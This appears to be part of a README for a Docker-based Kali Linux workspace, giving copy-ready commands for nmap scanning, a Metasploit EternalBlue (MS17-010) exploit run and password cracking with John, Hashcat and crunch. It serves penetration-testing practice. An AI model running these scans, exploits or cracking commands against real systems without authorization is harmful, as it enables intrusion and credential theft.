 ### 2. Network Scanning

**Basic Network Scan:**
```bash
# Quick scan
docker exec kali-workspace nmap -sn 192.168.1.0/24

# Service detection
docker exec kali-workspace nmap -sV -p- target.com

# Vulnerability scan
docker exec kali-workspace nmap --script vuln target.com

# Save results
docker exec kali-workspace nmap -oA /home/kali/workspace/scan_results target.com
```

**Advanced Scanning:**
```bash
# Stealth scan
docker exec kali-workspace nmap -sS -T2 -f target.com

# UDP scan
docker exec kali-workspace nmap -sU --top-ports 1000 target.com

# OS detection
docker exec kali-workspace nmap -O --osscan-guess target.com
```

### 3. Metasploit Framework

```bash
# Start Metasploit
docker exec -it kali-workspace msfconsole

# Inside MSF console
msf6 > db_status
msf6 > search ms17-010
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 > set RHOSTS target.com
msf6 > set LHOST eth0
msf6 > exploit
```

### 4. Password Cracking

```bash
# John the Ripper
docker exec kali-workspace john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

# Hashcat (needs GPU passthrough for best performance)
docker exec kali-workspace hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt

# Generate wordlists
docker exec kali-workspace crunch 8 12 -o /home/kali/workspace/wordlist.txt
```
